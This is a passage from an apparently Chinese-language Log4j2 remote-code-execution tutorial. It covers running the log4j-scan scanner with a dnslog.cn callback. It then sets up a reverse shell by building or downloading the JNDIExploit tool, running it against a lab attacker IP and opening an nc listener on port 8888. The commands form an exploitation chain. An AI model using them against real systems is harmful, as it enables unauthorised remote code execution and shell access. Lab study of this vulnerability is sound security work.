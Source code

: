 ### 3.3 log4j-scan

项目地址：

- [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)

![](/img/2024-08-25-log4j2-rce/6.png)

注意：

1. 指定`--dns-callback-provider dnslog.cn`解决`interact.sh server unavailable`

2. 创建一个空的`headers-none.txt`并指定为头部字段FUZZ，否则可能会被服务器认为是`Bad Message`而拒绝

## 0x04 反弹Shell

### 4.1 JNDI注入工具（推荐）

工具地址：

- [0x727/JNDIExploit](https://github.com/0x727/JNDIExploit)

```bash
git clone https://github.com/0x727/JNDIExploit.git
apt install maven
mvn clean package -DskipTests
cd target
```

源代码使用了`sun.misc.BASE64Encoder`，新版JDK编译会报`can not found symbol`错误，解决方法是用`java.util.Base64`类替换`sun.misc.BASE64Encoer`类

这里直接下载jar包：

```bash
wget https://github.com/0x727/JNDIExploit/releases/download/1.1/JNDIExploit.zip
unzip JNDIExploit.zip -d JNDIExploit
cd JNDIExploit
java -jar JNDIExploit-1.3-SNAPSHOT.jar -i 192.168.56.102
```

打开监听端口：

```bash
nc -lvvp 8888
```
